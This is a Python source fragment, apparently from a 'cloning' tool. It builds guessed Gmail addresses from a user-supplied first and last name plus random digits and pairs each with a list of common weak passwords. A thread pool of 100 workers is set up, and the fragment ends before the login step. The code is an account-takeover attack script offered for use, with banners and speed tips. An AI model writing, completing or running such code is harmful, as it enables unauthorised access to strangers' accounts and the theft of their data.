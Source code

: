 # APK CHECK EMIL
def snigdho_email():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    snigdho_Hasan(logo)
    snigdho_Hasan(f' [{xr}^{x}] Example>: {xr}9377,9370,9374,9379,9378{x}')
    snigdho_Hasan(" -----------------------------------------------------------------------------------")
    rk1 = '.'
    rk2 = '1'
    rk3 = '0'
    rk4 = '.'
    code = random.choice([rk1,rk2,rk3,rk4])                      
    # input(f' [{xr}â– {x}] Choose : ')
    os.system('clear')
    snigdho_Hasan(logo)
    fastname = input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93msnigdho, \x1b[38;5;208mhasan, \033[0;92mshuvo ] \n\033[0;95mâ•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â• \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING FAST NAME:\033[0;93m ')
    os.system('clear')
    snigdho_Hasan(logo)
    lasttname = input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93msnigdho, \x1b[38;5;208mhasan, \033[0;92mshuvo ] \n\033[0;95mâ•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â• \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LAST NAME:\033[0;93m ')
    snigdho_Hasan(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m1000, \x1b[38;5;208m2000, \033[0;92m5000 ] \n\033[0;95mâ•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â• \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(3))
        user.append(nmp)
    os.system("clear")
    snigdho_Hasan(logo)
    passx = 0
    HamiiID = []
    snigdho_Hasan("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {Sabir+Sabir} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=100) as manshera:
        clear()
        tl = str(len(user))
        snigdho_Hasan('\033[1;97m====================================================')
        snigdho_Hasan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        snigdho_Hasan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        snigdho_Hasan(f'{x}[{xr}^{x}]\033[0;92m YOU INPU NAME :'+fastname+lasttname)
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}] \033[0;95mSlow Cloning')
        snigdho_Hasan('\033[1;97m====================================================')
        for love in user:
            snigdhouser=fastname+code+lasttname+love
            pwx = [fastname+lasttname,fastname+lasttname+love,fastname+love,lasttname+love,'bangladesh','i love you','free fire',fastname+'123',lasttname+'123']
            uid = snigdhouser+'@gmail.com'